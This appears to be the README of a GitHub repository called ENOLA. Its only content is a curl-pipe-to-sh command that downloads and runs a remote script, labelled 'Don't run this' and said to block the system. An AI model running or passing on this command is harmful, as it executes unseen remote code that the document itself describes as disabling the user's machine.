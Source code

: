 # ENOLA

Don't run this :
`curl https://raw.githubusercontent.com/Prophidys/ENOLA/master/enola.sh | sh`

It will block your system.
